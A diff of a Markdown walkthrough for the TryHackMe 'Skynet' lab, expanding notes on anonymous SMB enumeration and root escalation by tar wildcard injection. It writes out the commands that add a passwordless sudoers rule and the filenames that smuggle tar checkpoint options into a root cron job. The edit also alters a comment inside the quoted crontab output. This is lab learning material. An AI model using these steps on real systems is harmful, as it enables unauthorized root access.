

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Linux Pentest/THM/Skynet.md, 2 parts joined by grey strips. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Linux Pentest/THM/Skynet.md
+++ b/Linux Pentest/THM/Skynet.md
@@ -150,7 +170,11 @@ Reconnecting with SMB1 for workgroup listing.
         Workgroup            Master
         ---------            -------
         WORKGROUP            SKYNET
+```
 
+The server exposed an `anonymous` share, which I attempted to access without credentials.
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ smbclient -L //10.129.157.254/anonymous
 Password for [WORKGROUP\kali]:
@@ -441,7 +527,7 @@ cat /etc/crontab
 # Unlike any other crontab you don't have to run the `crontab'
 # command to install the new version when you edit this file
 # and files in /etc/cron.d. These files also have username fields,
-# that none of the other crontabs do.
+# but they are not used by anything else.
 
 SHELL=/bin/sh
 PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
@@ -454,21 +540,59 @@ PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
 52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
 #
 www-data@skynet:/home/milesdyson/backups$
-
 ```
 
-## so I exploit this vulnerability to get high privilige and get root access
+The `/etc/crontab` file revealed that `backup.sh` is executed every minute by the **root** user.
 
+The script contains the following command:
+
+```bash
+tar cf /home/milesdyson/backups/backup.tgz *
 ```
 
+Since the script runs from `/var/www/html` and uses the wildcard `*`, filenames in that directory are expanded and passed as arguments to `tar`.
+
+This creates an opportunity for **Tar Wildcard Injection**.
+
+### Exploiting Tar Wildcard Injection
+
+GNU tar supports checkpoint options that can execute a command when a checkpoint is reached.
+
+Because the backup script runs as root and processes files using the wildcard, specially crafted filenames can be interpreted as tar options rather than ordinary filenames.
+
+I created a shell script that adds a passwordless sudo rule for the `www-data` user:
+
+```bash
 www-data@skynet:/var/www/html$ echo "echo 'www-data ALL=(root) NOPASSWD: ALL' >> /etc/sudoers" > /var/www/html/shell.sh
+```
+
+Next, I created two specially named files to inject the required tar options:
+
+```bash
 www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
 www-data@skynet:/var/www/html$ echo "" > --checkpoint=1
-www-data@skynet:/var/www/html$
+```
 
+The `shell.sh` script contains the command that modifies `/etc/sudoers`:
+
+```text
 www-data@skynet:/var/www/html$ cat sh
 cat shell.sh
 echo 'www-data ALL=(root) NOPASSWD: ALL' >> /etc/sudoers
+```
+
+### Understanding the Injected Options
+
+- `--checkpoint=1`: Instructs GNU tar to create a checkpoint after processing each archive record.
+- `--checkpoint-action=exec=sh shell.sh`: Tells GNU tar to execute `shell.sh` when the checkpoint is reached.
+
+When the root-owned cron job executes the backup script, the wildcard expansion passes these specially named files to `tar`. GNU tar interprets them as options and executes the specified script with root privileges.
+
+### Verifying Root Access
+
+After waiting for the scheduled backup task to execute, I checked the system and used `sudo su` to obtain a root shell.
+
+```text
 www-data@skynet:/var/www/html$ date
 date
 Sun Nov  1 14:42:49 CST 2026
@@ -479,9 +603,7 @@ www-data@skynet:/var/www/html$ sudo su
 sudo su
 id
 uid=0(root) gid=0(root) groups=0(root)
-
-
 ```
 
-* ``` echo "" > "--checkpoint-action=exec=sh shell.sh" ``` => Because this name is actually an option specific to the tar tool. It means that when tar reads it as an option, it asks to execute the command.
+<badge color="success">Root access obtained</badge>
 
````
Also changed, not shown: other parts of Linux Pentest/THM/Skynet.md (+165 -58 lines).
